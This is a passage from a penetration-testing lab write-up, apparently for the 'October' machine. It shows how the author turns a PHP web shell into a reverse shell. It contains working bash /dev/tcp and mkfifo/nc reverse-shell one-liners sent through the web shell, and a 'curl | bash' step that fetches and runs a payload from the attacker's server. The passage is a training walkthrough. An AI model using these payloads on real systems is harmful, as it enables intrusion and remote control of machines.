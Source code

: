 Before I continue enumerating from the **web PHP shell**, I'd better get a **Reverse Shell** by running a one-liner available in **[PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}**, but to accomplish my goal I must know if the connectivity with my attacking machine is guaranteed, and to verify this I send a trace with `ping`. I can already make my first attempts but for some reason they do not work, so there is another method that I use a lot which is to start a local server with `python` so that a **index.html** file is accessible (with the **one-liner** of the **Reverse Shell**) and from the web I execute a command with `curl` to make a request for the malicious file and then with ```|``` interpret the code with `bash`. With `nc` I succeed in catching the incoming **Reverse Shell** on port **443** and I could accomplish the first **Engagement** phase of the lab.

> **Attacker Machine**:

```bash
nc -nlvp 443
http://10.10.10.16/storage/app/media/shell.php5?cmd=bash -i >&/dev/tcp/10.10.14.5/443 0>&1
http://10.10.10.16/storage/app/media/shell.php5?cmd=bash -c 'bash -i >&/dev/tcp/10.10.14.5/443 0>&1'
http://10.10.10.16/storage/app/media/shell.php5?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 443 >/tmp/f

python3 -m http.server 80
# http://10.10.10.16/storage/app/media/shell.php5?cmd=curl 10.10.14.5
# :)

nvim index.html
cat !$
```

> **index.html**:

```bash
#!/bin/bash

bash -c 'bash -i >&/dev/tcp/10.10.14.5/443 0>&1'
```

```bash
python3 -m http.server 80
nc -nlvp 443
# http://10.10.10.16/storage/app/media/shell.php5?cmd=curl 10.10.14.5 | bash
# :)
```

> **Victime Machine**:

```bash
whoami
hostname
hostname -I
```

<br />
<img src="{{ site.img_path }}/october_writeup/October_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
